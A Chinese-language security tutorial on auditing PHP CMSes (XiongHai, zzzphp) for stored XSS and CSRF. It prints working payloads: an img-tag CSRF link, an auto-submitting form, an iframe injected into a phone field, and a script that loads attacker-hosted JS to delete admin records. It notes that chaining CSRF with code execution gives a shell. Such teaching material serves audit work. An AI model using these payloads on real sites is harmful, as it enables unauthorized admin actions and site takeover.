 # 0x00 XSS简介

XSS分为反射型和储存型，一般来说反射型的用处不是很大利用难度相对较高，存储型XSS一般常见于发布评论、留言、收获地址、个人信息等等。对于xss的审计我们一般就在这些点找，有用户控制输入信息输出的地方都是它出现的地方，很多网站的突破口可能就是一个XSS。


# 0x01 XSS实战审计

这次选用的CMS还是熊海，我们通过搭建环境查看输入的地方来审计，学习下高效率审计方式。

![file](./img/1.4.1.png)

随意留言抓包看看他请求的url再去找相对的文件`/?r=submit&type=message` 当然你还是得看看他是怎么调用文件的，这里就是加载submit文件中的message方法。

我们来到 files/submit.php

![file](./img/1.4.2.png)

前面的输入基本都没过过滤，到了最后一步`$content`被 `addslashes(strip_tags($content));`过滤，所以我们XSS其他地方即可，看到这里我们在挖洞的过程中所以不要纠结一点。

![file](./img/1.4.3.png)

一般过滤xss的函数还有`htmlspecialchars`，我们审计他的注意点就是查看一些输出函数print、print_r、echo、printf、die、var_dump、var_export。

# 0x02 Csrf

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。
CSRF实际上就是利用你的身份去发送恶意请求，我们需要知道CSRF分为GET型提交的和POST，前者危害更大，后者一般可以寻找XSS来配合我们。GET型的比如一个链接 http://www.404.com/1.php?id=1 访问即可删除账号，然后你在论坛发帖构造
`<img src="http://www.404.com/1.php?id=1">` 那么访问这个帖子的人账号都将会删除，POST的见下文，造成CSRF的原因就是没有使用token或者验证其他值，审计就看页面有没有token、referer验证，验证是否可以绕过，不过我推荐还是先黑盒，看看有没有token，删除了referer是否能够访问，再结合代码来看。


我们来看到zzzphp的后台，他是没有token的，同时我们前面审计到了他的代码执行，配合这个csrf就可以直接getshell。

![file](./img/1.4.4.png)

如果你不会自己写这个代码，不妨使用burp生成一个测试页面，右键选择即可。

![file](./img/1.4.5.png)

这是个需要点击的表单,你可以加一段JavaScript代码来自动提交。

```
<script> document.forms[0].submit(); </script> 

```

# 0x03 组合利用

这里只是个简单的组合，由于没找到具体实验环境我只有简单的演示一下(懒)
本次选妃zzzphp，由于他后台没有的xss，我只能登陆后台后查看前台了。

1.构造CSRF表单自动提交
payload：
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
         //burp生成的表单
      <script> document.forms[0].submit(); </script> 

  </body>
</html>

```

2.插入iframe标签

payload：

```
<iframe src="http://404.com/zzzp6p/1.html" />
```
还可以使用XMLHTTPRequest发送POST、GET，按情况选择，这里把payload插入手机号码。

![file](./img/1.4.6.png)

用登陆了后台后访问页面，可以看到显示修改成功。

由于没找到想要的源码我简单介绍下利用XMLHTTPRequest来发包,漏洞程序还是熊海cms删除一友情链接

payload 1.js：

```
function del() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET','/xiong/admin/?r=linklist&delete=6');
    xhr.send(null);
    }
del();

```
payload：

```
<script src="http://404.com/xiong/1.js"></script> 

```
查看留言板可以看到我们的XMLHTTPRequest已经发包了

![file](./img/1.4.7.png)

比较典型的例子可以看看 https://xz.aliyun.com/t/3177